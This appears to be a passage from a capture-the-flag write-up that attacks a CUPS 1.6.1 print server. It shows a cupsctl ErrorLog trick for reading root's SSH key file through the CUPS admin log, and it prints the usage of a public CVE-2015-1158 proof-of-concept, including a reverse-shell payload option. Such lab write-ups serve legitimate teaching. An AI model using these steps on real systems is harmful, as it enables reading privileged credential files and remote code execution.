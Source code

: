 
To run all of `rockyou.txt` will take over 8 hours, and it won't find
the password.

I'll also check to see if there's an SSH key in `/root/.ssh/id_rsa`, but
the file doesn't exist:



    lp@antique:/dev/shm$ cupsctl ErrorLog=/root/.ssh/id_rsa
    lp@antique:/dev/shm$ curl 127.0.0.1:631/admin/log/error_log?
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR.md4/loose.dtd">
    <HTML>
    <HEAD>
            <META HTTP-EQUIV="Content-Type" CONTENT="text.md; charset=utf-8">
            <TITLE>Not Found - CUPS v1.6.1</TITLE>
            <LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
    </HEAD>
    <BODY>
    <H1>Not Found</H1>
    <P></P>
    </BODY>
    </HTML>



I will get a shell an unintended way in [Beyond Root](#pwnkit).

## Beyond Root

### CVE-2015-1158

In Googling for CUPS vulnerabilities, I'll come across CVE-2015-1158,
which is remote code execution in CUPS \< 2.0.3, which could very well
include 1.6.1.

[This
script](https://github.com/0x00string/oldays/blob/master/CVE-2015-1158.py)
is a POC, so I'll give it a try.

Downloading it, it's a Python2 script, and it takes a host, a port, and
a library to run:



    oxdf@hacky$ python2 cve-2015-1158.py             ...[snip]...
    python script.py <args>
       -h, --help:             Show this message
       -a, --rhost:            Target IP address
       -b, --rport:            Target IPP service port
       -c, --lib               /path/to/payload.so
       -f, --stomp-only        Only stomp the ACL (no postex)

    Examples:
    python script.py -a 10.10.10.10 -b 631 -f
    python script.py -a 10.10.10.10 -b 631 -c /tmp/x86reverseshell.so
